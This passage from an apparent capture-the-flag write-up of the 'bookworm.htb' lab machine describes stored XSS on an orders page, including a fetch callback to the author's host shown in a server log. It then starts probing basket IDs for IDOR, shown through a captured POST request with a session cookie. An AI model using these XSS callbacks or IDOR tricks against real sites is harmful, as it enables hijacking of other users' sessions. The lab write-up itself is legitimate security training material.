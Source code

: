 #### Connect Back

At this point, I have XSS in my orders page, but doesn’t seem like anyone is
checking it. I’ll include some JavaScript that will connect back to my host,
using a simple `fetch` payload:

![image-20240115180632960](../img/image-20240115180632960.png)

I’m showing the [JavaScript Fetch API](https://developer.mozilla.org/en-
US/docs/Web/API/Fetch_API/Using_Fetch) here where in the past I’ve often shown
`XMLHttpRequest`. Either could work, but `fetch` is pretty clean.

When I refresh the same order, it loads the new JavaScript and makes an
attempt at my server:

    
    
    10.10.14.6 - - [15/Jan/2024 11:30:55] code 404, message File not found
    10.10.14.6 - - [15/Jan/2024 11:30:55] "GET /xss HTTP/1.1" 404 -
    

Unfortunately, there are no connections back to me from any other users. It
makes sense that no one else is looking at my orders. I’ll need to find a way
to get XSS in front of another user.

### IDOR

#### Identify Basket IDs

I’ll need to find a page that other users are checking if XSS is going to get
anywhere. I’ll notice when I update my basket note that the POST looks like:

    
    
    POST /basket/386/edit HTTP/1.1
    Host: bookworm.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 34
    Origin: http://bookworm.htb
    Connection: close
    Referer: http://bookworm.htb/basket
    Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6IjB4ZGYiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==; session.sig=oXoXrRyKLk0xwu6KhLkPo6XC6hw
    Upgrade-Insecure-Requests: 1
    
    quantity=1&note=This+is+a+new+note
    